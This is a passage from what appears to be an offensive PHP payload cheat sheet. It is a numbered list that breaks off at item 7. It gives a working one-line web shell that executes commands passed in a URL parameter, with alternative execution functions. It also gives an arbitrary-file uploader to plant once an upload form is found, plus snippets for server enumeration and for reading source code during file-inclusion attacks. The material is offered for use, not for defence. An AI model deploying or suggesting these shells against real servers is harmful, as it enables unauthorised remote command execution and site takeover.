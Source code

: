 ➡ Displays full server configuration (extensions, versions, `allow_url_include`, open\_basedir, etc.).

Very useful for **enumeration**.

***

#### 3. **Web Shell (Command Execution)**

```php
<?php system($_GET['cmd']); ?>

```

➡ Run commands by appending `?cmd=ls` in the URL.

(You can also replace `system` with `exec`, `shell_exec`, or `passthru`.)

***

#### 4. **File Upload Test (Webshell)**

```php
<?php echo "File uploaded!"; ?>

```

➡ Simple PHP test payload to check if upload worked (before putting full shell).

***

#### 5. **File Browser / Uploader**

```php
<?php
if(isset($_FILES['file'])){
    move_uploaded_file($_FILES['file']['tmp_name'], $_FILES['file']['name']);
}
?>

```

➡ Upload arbitrary files once you find an upload form.

***

#### 6. **Read Source Code**

```php
<?php echo highlight_file('index.php', true); ?>

```

➡ Displays source code of `index.php` with syntax highlighting.

Great for **LFI to RFI** exploitation.

***

#### 7. **Include Vulnerability Demo**
